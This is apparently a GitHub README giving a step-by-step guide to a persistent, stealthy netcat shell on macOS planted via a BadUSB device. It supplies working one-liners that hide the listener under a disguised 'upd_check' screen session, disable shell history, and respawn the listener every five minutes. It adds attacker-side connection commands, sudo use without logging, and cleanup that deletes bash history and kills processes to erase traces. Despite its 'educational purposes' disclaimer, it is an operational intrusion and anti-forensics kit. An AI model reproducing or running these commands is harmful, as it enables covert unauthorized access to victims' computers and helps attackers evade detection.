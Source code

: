# **Mac Endless Reverse Shell**

### **This guide is for educational purposes or authorized security testing only. Unauthorized access to computer systems is illegal and unethical.**

Interactive reverse shell on MacOS systems, leveraging **`nc`** (netcat). This approach is designed for stealth and efficiency, avoiding reliance on Python or any other non-standard tools on the target machine. Follow these steps carefully to maintain control over the target system discreetly.

## **Setup Instructions**

---

### **1. Establishing the Reverse Shell on the Target Machine via BadUSB**

**Objective:** Start a reverse shell listener on the target machine as a background process using **`screen`**.

Not used in the BadUSB script but good to have.

- **Initial Command:** This sets up a continuous loop that listens for incoming connections on port 9123, handling signals to clean up and exit gracefully if needed.

`screen -dmS upd_check bash -ic "unset HISTFILE; set +o history; trap 'rm -f /tmp/f; screen -S background_process -X quit; kill -SIGINT $$' EXIT; while true; do rm /tmp/f || true; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 9123 >/tmp/f; [ -f /tmp/terminate ] && break || true; sleep 1; done"` 

The BadUSB Payload:

- **Enhanced Command:** Improves upon the initial setup by attempting to re-establish the reverse shell every 5 minutes, ensuring connectivity even if the session is disrupted.

`screen -dmS upd_check bash -ic 'unset HISTFILE; set +o history; trap "rm -f /tmp/f; screen -S background_process -X quit; killall nc 2>/dev/null; kill -SIGINT $$" EXIT; while true; do rm /tmp/f || true; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 9123 >/tmp/f & sleep 300; pkill -f "nc -l 9123" 2>/dev/null && ps aux | awk "/bash -i/ && !/awk/ {print \$2}" | xargs kill -9; if [ -f /tmp/terminate ]; then break; fi; done'`

---

### **2. Configuring the Attacker's Machine**

**Objective:** Secure the reverse shell connection and prevent accidental disconnections.

- **Disable accidental interrupts:** Prevents the use of Ctrl+C from terminating the shell.

`stty intr ''  # Disable Ctrl+C`

- **Restore interrupt key:** Re-enables Ctrl+C functionality when needed.

`stty intr ^C # To reset`

- **Connecting:** Utilize **`rlwrap`** for a better shell experience when connecting to the target.

`rlwrap -r nc [TARGET_IP] 9123`

---

### **3. Managing the Session on the Victim's Machine**

**Objective:** Maintain stealth and control within the session.

- **Standard Shell Environment:** Enhances the shell for command execution without leaving history.
    
    `script -q /dev/null bash
    unset HISTFILE; set +o history && export PS1='\u@\h:\w\$'`
    
- **Executing Privileged Commands:** Executes commands as **`sudo`** without logging.
    
    `unset HISTFILE; set +o history && echo "password" | sudo -S whoami` 
    
- **Root Access:** After Switching to root execute this for not logging the commands.
    
    `unset HISTFILE`
    

---

### **4. Cleanup on the Victim Machine**

**Objective:** Remove traces of the reverse shell session and terminate gracefully.

- **Command for cleanup processes that are related to reverse shell:**

`nohup bash -c 'screen -S upd_check -X quit; sleep 3; screen -wipe; pkill -f "nc -l 9123"; ps aux | grep "[b]ash -i" | grep -v grep | awk "{print \$2}" | xargs -r kill -9; rm -f /tmp/f; rm -f ~/.bash_history' > /dev/null 2>&1 &`

- **Verification:** Confirm that all related processes are terminated and no listeners are active.

`ps aux | grep bash`

`screen -list`

`lsof -i :9123`

---

### **Important Note:**

When using the **`script`** command to enhance the shell environment, there's a risk of leaving the reverse shell process in a suspended state if the session exits unexpectedly. This can occur because the **`script`** command initiates a new shell session for logging purposes, and if this session is not properly terminated (for instance, due to a network disconnection or closing the terminal without exiting the **`script`** session), the underlying process may continue to run without the ability to reconnect. To mitigate this risk and ensure the ability to reconnect, it's crucial to exit the **`script`** session using the **`exit`** command before ending your reverse shell session. This ensures that all processes are terminated properly and the shell is left in a state that allows for future connections.

For the clarification on the **`screen`** command and how the enhanced command improves reliability:

### **Clarification on `screen` Command:**

The enhanced **`screen`** command offers a significant improvement over the initial setup by incorporating a mechanism to automatically attempt re-establishment of the reverse shell connection every 5 minutes. This approach is particularly useful in scenarios where the reverse shell might be disrupted due to network instability or if the initial connection is accidentally closed. By using a loop that periodically kills the existing **`nc`** (netcat) listener and starts a new one, the command ensures that the attacker can regain access to the target machine without needing to re-deploy the payload. This auto-reconnect feature makes the reverse shell more resilient to disconnections and enhances its persistence on the target machine, ensuring that temporary disruptions do not permanently sever the attacker's access.

### ***This procedure is designed for operational discretion and effectiveness. Ensure you have authorized access to the system before attempting this setup.***
